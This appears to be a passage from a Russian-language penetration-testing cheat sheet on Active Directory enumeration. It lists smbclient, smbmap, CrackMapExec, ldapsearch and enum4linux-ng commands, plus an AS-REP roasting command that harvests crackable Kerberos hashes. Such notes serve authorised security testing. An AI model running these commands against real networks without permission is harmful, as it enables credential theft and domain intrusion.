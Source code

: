 ### SMB: список шар (smbclient)

```bash
smbclient -L //<IP> -U 'DOMAIN\\user'
```

*Действие:* получить список шар и доступность анонимного доступа.
*Ожидается:* таблица шар с правами и комментарием.

### SMB массовая enumeration (smbmap)

```bash
smbmap -H <IP> -u 'user' -p 'pass' -R
```

*Действие:* рекурсивный просмотр содержимого шар.
*Ожидается:* список файлов/директорий и разрешений.

### AD обзор (CrackMapExec)

```bash
crackmapexec smb 10.0.0.0/24 --shares --users --groups --sessions
```

*Действие:* агрегирует SMB/AD информацию по подсети.
*Ожидается:* табличный вывод с найденными учетками/шарами/сессиями.

### LDAP запрос (ldapsearch)

```bash
ldapsearch -x -H ldap://<DC_IP> -b "dc=domain,dc=local" "(objectClass=user)" cn sAMAccountName
```

*Действие:* извлекает объекты пользователей через LDAP.
*Ожидается:* список атрибутов найденных объектов.

### enum4linux-ng (автоматический сбор)

```bash
enum4linux-ng -a <IP>
```

*Действие:* полный набор enum-скриптов для SMB/AD.
*Ожидается:* сводный репорт с пользователями, групами, шарами.

---

## Фаза 2 — Enumeration (глубже)

### AS-REP roasting (GetNPUsers.py)

```bash
GetNPUsers.py domain/ -dc-ip <DC_IP> -format john -outputfile asrep.hash
```

*Действие:* собирает AS-REP хэши для аккаунтов без preauth.
*Ожидается:* файл asrep.hash (формат для john/hashcat).
